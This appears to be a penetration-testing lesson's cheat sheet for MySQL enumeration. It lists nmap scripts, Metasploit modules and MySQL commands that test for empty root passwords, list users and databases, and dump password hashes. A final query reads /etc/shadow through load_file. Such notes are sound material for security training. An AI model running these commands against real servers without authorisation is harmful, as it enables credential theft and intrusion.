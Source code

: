 # Enumeration: MySQL
> MySQL is usually found on some flavor of Linux. Database software very common in many web sites, especially in enterprise systems. It's also very often misconfigured and therefore vulnerable.

- Default MySQL Port: `3306`

## Contents
- [](#)
- [](#)
- [](#)
- [](#)
- [](#)

## Nmap Scripts

### Default Scripts
> Start wide and general, then focus on things your find. Start with default scripts.
```
nmap -sV -sC -p 3306 [target ip]
```

### mysql-empty-password
> This will look for accounts that don't require a password Checks for MySQL servers with an empty password for root or anonymous.
```
nmap -sV -p 3306 --script mysql-empty-password [target ip]
```

### mysql-info
> More information on the db itself If you see "Interactive Client," that's interesting. 
```
nmap -sV -p 3306 --script mysql-info[target ip]
```

### mysql-users
> Should provide you with a list of users on the db system (add to enumeration notes)
```
nmap -sV -p 3306 --script mysql-users --script-args "mysqluser='root',mysqlpass=''" [target ip]
```

### mysql-databases
> Should provide you with a list of databases on the system (add to enumeration notes)
```
nmap -sV -p 3306 --script mysql-databases --script-args "mysqluser='root',mysqlpass=''" [target ip]
```
- You get a mess of information.  Look for (most useful):  `datadir: /var/lib/mysql`
- That tells you were the variables are stored (this has potential uses)

### mysql-audit
```
nmap -sV -p 3306 --script mysql-audit --script-args "mysql-audit.username='root',mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'" [target ip]
```
- NOTE: "Do not grant GRANT privileges to non Admin users => PASS" (that's good security but bad for us)
- Three args are required: [documentation](https://nmap.org/nsedoc/scripts/mysql-audit.html)
  - mysql-audit.username='root'
  - mysql-audit.password='foobar'
  - mysql-audit.filename='nselib/data/mysql-cis.audit'  [usually in /usr/share/nmap/]

### mysql-dump-hashes
> Should get all the hashes (just like with the msf scan below)
```
nmap -sV -p 3306 --script mysql-dump-hashes --script-args "username='root',password=''" [target ip]
```

### mysql-query
> Run an SQL query via an nmap script
```
nmap -sV -p 3306 --script mysql-query --script-args "query='select count(*) from books.authors;',username='root',password=''" [target ip]
```
- NOTE: Syntax of SQL Count() function...
```
SELECT COUNT(expression)
FROM table
WHERE condition;
```
- *Expression* is the parameter where you specify which values you want to count. It can be a field or string type value.
- *Table* is the table you use as a source to fetch records. You need to hyave at least one table.
- *WHERE* is an optional condition for selecting records from the table. 

## MetaSploit
> If you are not very familiar with SQL, you can use the MSF as a crutch.

### mysql_writable_dirs
```
> use auxiliary/scanner/mysql/mysql_writable_dirs
> options
> set dir_list /usr/share/metasploit-framework/data/wordlists/directory.txt
  # tab completion is your friend
> setg rhosts [target ip]
  # setg is global so you don't have to keep setting rhosts if you're going to be hammering on the same ip all the time. Sets it for the current session only, but for the whole session.
> set verbose false
  # This is found in the advanced options section ( > advanced )
> set password ""
  # Sets to null
> run
```
- Outputting these kinds of things to a file can be a lot easier to parse
- Find writable dirs, etc.  (tmp and root are the only writable dirs on this lesson)
- NOTE: you found writable dirs in the target FILESYSTEM (not in the database), and you found them by scanning the database.

### mysql_hashdump
```
> use auxiliary/scanner/mysql/mysql_hashdump
> options
  # if you use setg for rhosts, it should already be set
> set username root
> set password ""
> run
```
- You just might get a whole bundle of hashs you can add to our list of enumerated goodies

## MySQL Commands

### Initial Queries
```
mysql -h [target ip] -u root
```
- This is a mysql command, the `-h` is for the host, `-u` is username
- If that lets you login... it's horribly misconfigured and more than vulnerable.
- At the `MySQL [(none)]>` prompt:

```
show databases;
  # NOTE: requires semicolon at the end
  # This will list out all the databases out there on the server
  # Choose one and look at it... done with "use [database]"
use [database];
show tables;
describe [table name or databaseName.tableName];
use books;
  # This drops us into the books db
select count(*) from authors;
  # This gives us a count of authors in the db
  # If you want to see everything from db...
select * from authors
  # Lists out all the info in authors
help
  # This will give you a quick list of things you can do, syntax, etc.
```

### Filesystem Acces
> Let's see if we have access to files on the target machine... 
```
mysql -h [target ip] -u root
```
- At the `MySQL [(none)]>` prompt:
```
> select load_file("/etc/shadow");
```
- You may get the full shadow file...
- The [/etc/shadow](https://www.cyberciti.biz/faq/understanding-etcshadow-file/) file is a text file that contains information about the system’s users’ passwords.
- The [/etc/passwd](https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/) file contains a list of valid users on the target system
